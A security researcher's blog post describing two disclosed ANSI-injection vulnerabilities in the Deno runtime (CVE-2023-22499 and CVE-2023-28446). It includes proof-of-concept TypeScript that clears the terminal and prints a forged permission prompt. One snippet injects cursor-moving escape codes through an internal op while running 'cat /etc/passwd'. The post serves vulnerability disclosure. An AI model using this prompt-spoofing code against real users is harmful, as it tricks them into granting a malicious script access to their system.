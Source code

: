 ```yaml
---
title: 2 ANSI injection vulnerabilities in Deno
description: permission prompts meet the modern terminal
emojis: 🦕 🚫 📟
date: 2023-03-25
slug: deno-ansi-injection
type: security
layout: article
---
```


Deno is a wonderful project (and i &amp;lt;3 it). I've been following the project for a few years now, and it is one of my favourite scripting runtimes, even more than python.
It's a great way to run TypeScript (and, unfortunately, JavaScript) code on the server side, and its package model + permission system proves extremely powerful.

However, the project for me served as a good start on my first few CVEs.

## Deno's permission system

Deno, by default, is secure. Deno doesn't make guarantees on runtime resources (CPU, RAM), but it does make guarantees on external access or permenant storage.

For example, if a malicious script you ran (maybe `deno run https://example.com/malicious-script.ts`) tried to access the file system, it would be denied. This is because Deno's default permissions don't allow for:

- network access
- file system access
- environment access
- arbitrary command execution
- ffi access
- and even fingerprinting (system apis and disables high resolution timers)

However, sometimes you _want_ a script to have these permissions, so deno treats you with a prompt. For example, running `deno run https://example.com/grab-a-cat-pic.ts`, which grabs pictures of cats from an `example.com` API, would prompt you with:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

This is a wonderful feature, and I'm glad it exists. It makes working with arbitrary scripts much safer, and it's a great way to ensure that you're not running malicious code.
Unfortunately, it's not perfect.

## by accident

I was playing around with Deno's web workers. Web workers allow you to run code in a separate thread,
and they're a great way to do things like offload CPU intensive tasks to a separate thread, or to run code in a separate thread without blocking the main thread.

At the time, I was trying to fetch some data from my main file asynchronously, and wanted to see how well it worked with web workers.

```ts:worker.ts
console.log('hello from worker');
```

```ts:main.ts
const worker = new Worker(new URL('worker.ts', import.meta.url).href, {
	type: 'module'
});

const request = await fetch('https://example.com/api/cat-pics');
```

```sh
$ deno run --allow-net main.ts
```

This worked great! I was able to fetch data from the internet, and I was able to run code in a separate thread.

However, when running it again, I forgot to include `--allow-net`, leading to this interesting prompt:

```sh
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
hello from worker
```

At first, I didn't think much of it. I simply assumed the web worker was just running after, and the network request took a bit to kick in, and that it was just printing out the message.

However, from my previous work with direct ANSI codes (as I wanted to know how terminal colors were displayed), I knew that you could use ANSI codes to move the cursor around, and I knew that you could use ANSI codes to clear the screen.

So, I decided to try it out.

```ts:worker.ts
console.clear();
console.log(`
┌ ⚠️  Deno requests net access to "deno.land".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
`);
```

```ts:main.ts
const worker = new Worker(new URL('worker.ts', import.meta.url).href, {
	type: 'module'
});

const request = await fetch('https://example.com/api/malicious-fetch-fingerprint');
```

```sh
deno run main.ts
```

As predicted, the prompt was cleared, and the message was printed out. This simple trick allowed me to spoof the prompt, and it was a great way to get a user to accidentally grant permissions to a malicious script.

This CVE is now [GHSA-mc52-jpm2-cqh6](https://github.com/denoland/deno/security/advisories/GHSA-mc52-jpm2-cqh6), or [CVE-2023-22499](https://nvd.nist.gov/vuln/detail/CVE-2023-22499) ([snyk](https://security.snyk.io/vuln/SNYK-RUST-DENO-3233636)).

## on purpose

Around this time, I recently learned that deno had internal methods (accessible by `Deno[Deno.internal]`).

Then, looking at the permission prompt (from my previous CVE), I noticed that it can take a number of parameters on the rust side, and that it occasionally exposes these parameters to the user.

Here was the template for the permission prompt:

```sh
┌ ⚠️  Deno requests ${type} access to ${scope}.
├ Requested by `${api}` API
├ Run again with --allow-${type} to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

`type` and `scope` are both tightly controlled, and are only ever set to a few values. However, `api` is not. It's set to whatever the API is that is requesting the permission.

For ease of developer convenience, the Deno maintainers made this configurable, and allowed you to set the `api` parameter to whatever you wanted, on the TypeScript side.

This was hidden in `op` functionality, specifically in `op_spawn_child` and `op_kill`, where `op_spawn_child` works on `--unstable` and `op_kill` is configured to give access to all run permissions.

```ts
const boldANSI = '\u001b[1m'; // bold
const unboldANSI = '\u001b[22m'; // unbold

const prompt = `┌ ⚠️  ${boldANSI}Deno requests run access to "echo"${unboldANSI}
├ Requested by \`Deno.Command().output()`;

const moveANSIUp = '\u001b[1A'; // moves to the start of the line
const clearANSI = '\u001b[2K'; // clears the line
const moveANSIStart = '\u001b[1000D'; // moves to the start of the line

Deno[Deno.internal].core.ops.op_spawn_child(
	{
		cmd: 'cat',
		args: ['/etc/passwd'],
		clearEnv: false,
		env: [],
		stdin: 'null',
		stdout: 'inherit',
		stderr: 'piped'
	},
	moveANSIUp + clearANSI + moveANSIStart + prompt
);
```

Once again, this allowed me to spoof the prompt, providing another way to get a user to accidentally grant permissions to a malicious script.

This is now [GHSA-vq67-rp93-65qf](https://github.com/denoland/deno/security/advisories/GHSA-vq67-rp93-65qf), or [CVE-2023-28446](https://nvd.nist.gov/vuln/detail/CVE-2023-28446) ([snyk](https://security.snyk.io/vuln/SNYK-RUST-DENORUNTIME-3373053))

## tips

dig into stuff, if it looks interesting, and try it out. You never know what you might find.

